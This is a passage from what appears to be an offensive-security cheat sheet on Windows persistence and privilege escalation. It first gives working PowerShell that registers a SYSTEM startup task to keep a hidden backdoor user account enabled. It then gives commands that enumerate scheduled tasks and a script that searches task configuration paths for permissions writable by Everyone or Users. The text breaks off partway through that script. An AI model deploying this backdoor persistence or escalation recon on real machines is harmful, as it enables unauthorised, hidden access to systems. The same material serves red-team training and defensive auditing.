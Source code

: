 #### Automatically Enable User on Boot
- Set the hidden user account to automatically be enabled after every boot by scheduling a task:
	```powershell
	$Action = New-ScheduledTaskAction -Execute "PowerShell.exe" -Argument "-Command Enable-LocalUser -Name '<hidden_username>'"
	$Trigger = New-ScheduledTaskTrigger -AtStartup
	Register-ScheduledTask -Action $Action -Trigger $Trigger -TaskName "EnableHiddenUser" -Description "Ensures the hidden user is enabled at startup" -User "SYSTEM"
	```
	- Explanation: This ensures the hidden backdoor user account remains enabled even if it gets disabled.

# Scheduled Tasks

#### Scheduled Task Enumeration
- List All Scheduled Tasks:
    ```powershell
    Get-ScheduledTask
    ```
- List All Scheduled Tasks, Including Task Owners and Commands:
    ```powershell
    schtasks /query /fo LIST /v
    ```
- Display Detailed Information for a Specific Scheduled Task:
    ```powershell
    Get-ScheduledTaskInfo -TaskName "<task_name>"
    ```
- Identify Scheduled Tasks Not Running as SYSTEM:
    ```powershell
    Get-ScheduledTask | Where-Object { $_.Principal.UserId -ne "SYSTEM" } | Out-File "C:\Path\To\Outfile.txt"
    ```
- List Tasks Running as SYSTEM:
    ```powershell
    Get-ScheduledTask | Where-Object { $_.Principal.UserId -eq "SYSTEM" } | Out-File "C:\Path\To\Outfile.txt"
    ```

#### Identify Writable Scheduled Task Configuration Paths
```powershell
# Set up output file paths
$Step1_OutputFilePath = "C:\Step1_Scheduled_Tasks_Configuration_ACL.txt"
$Step2_OutputFilePath = "C:\Step2_Scheduled_Tasks_Configuration_ACL_Filtered.txt"

# Set a large width to prevent line wrapping
$PSDefaultParameterValues['Out-File:Width'] = 300

# Initialize Step 1 output file (ACL data collection)
New-Item -Path $Step1_OutputFilePath -ItemType File -Force | Out-Null
New-Item -Path $Step2_OutputFilePath -ItemType File -Force | Out-Null

# Regex patterns for matching ACL entries
$patterns = @(
    "Everyone .*Allow.*  .*FullControl.*",
    "Everyone .*Allow.*  .*Modify.*",
    "Everyone .*Allow.*  .*Write.*",
    "Everyone .*Allow.*  .*Delete.*",
    "Everyone .*Allow.*  .*TakeOwnership.*",
    "Everyone .*Allow.*  .*ChangePermissions.*",
    "BUILTIN\\Users .*Allow.*  .*FullControl.*",
    "BUILTIN\\Users .*Allow.*  .*Modify.*",
    "BUILTIN\\Users .*Allow.*  .*Write.*",
```
